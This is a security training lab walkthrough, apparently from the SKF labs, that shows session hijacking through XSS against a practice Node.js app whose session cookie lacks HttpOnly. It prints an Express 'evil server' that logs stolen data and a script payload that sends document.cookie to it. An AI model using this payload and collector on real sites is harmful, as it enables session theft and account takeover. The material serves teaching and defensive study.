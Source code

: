 # KBID 39 - HttpOnly Session hijacking

## Running the app nodeJs

First make sure nodejs and npm are installed on your host machine.
After installation, we go to the folder of the lab we want to practice.
"i.e /skf-labs/XSS, /skf-labs/RFI/" and run the following commands:

```
$ npm install
```

```
$ npm start
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

The attacker can compromise the session token by using malicious code or programs running at the client-side. The example shows how the attacker could use an XSS attack to steal the session token.

Because the server keeps track of the current authenticated user by means of the value of the session cookie, whenever this session cookie gets compromised an attacker is able to impersonate this user by changing his current session cookie with the compromised session cookie in his browsers session storage.

Lets start the application and login with the default credentials.

username : admin  
password: admin

![](../../.gitbook/assets/nodejs/Session-hijacking-XSS/1.png)

After authenticating to the server we can see that the user has a text-area
field at his dissposal to insert user input. When we press submit we find that
this user supplied input is being reflected on the side of the client. This is a perfect indicator that we might want to start testing for cross site scripting attacks.

Refer to the XSS labs for more information how to test!

Now, at this point we established that the application is suspectible for cross site scripting attacks after playing around with some payloads. However, the goal for this lab is to obtain the users session cookie to perform a session hijacking attack and to be able to impersonate the user on the server.

We can tell if we can hijack the session information by inspecting the cookies and see if the HTTP/HttpOnly attribute is enabled for the session cookie.

Highlighted in red we find this attribute and see that it is not activated for this application

![](../../.gitbook/assets/nodejs/Session-hijacking-XSS/2.png)

Now, we can inject the a piece of malicious javascript to see if we can prompt an alert box that displays the applications session information.

![](../../.gitbook/assets/nodejs/Session-hijacking-XSS/3.png)

![](../../.gitbook/assets/nodejs/Session-hijacking-XSS/4.png)

## Exploitation

Now that we have determined that we can

1. inject malicious javascript

2. The HttpOnly attribute is not set for the session cookie

We can start building our malicious payload and hijack the session information to our malicious webserver.

```javascript
const express = require("express");
const app = express();

app.use(express.static(__dirname + "/static"));
app.use(express.urlencoded({ extended: true }));

app.get("/", (req, res) => {
  console.log(req.query);
  res.render("evil.ejs");
});

const port = process.env.PORT || 1337;

app.listen(port, "0.0.0.0", () => console.log(`Listening on port ${port}...!!!`));
```

Save the snippet above to &gt; evil_server.js and run the commands below to install some dependencies.

```text
$ npm install express ejs
```

Of course you can also run your app on whatever service you want it does not have to be nodeJs express.

```text
$ node evil_server.js
```

Now that the service is running we want to inject the malicious piece of javascript that is responsible for hijacking the victims session information.

![](../../.gitbook/assets/nodejs/Session-hijacking-XSS/5.png)

```html
<script>
  new Image().src = "http://localhost:1337/?stolen_cookie=" + document.cookie;
</script>
```

After injecting the malicious javascript in the text-area field we see the stolen cookie in the server logs.

![](../../.gitbook/assets/nodejs/Session-hijacking-XSS/6.png)

The attacker can now change the session cookie value in his browers console by the session cookie that we hijacked with our malicous payload to "hijack" the victims account.
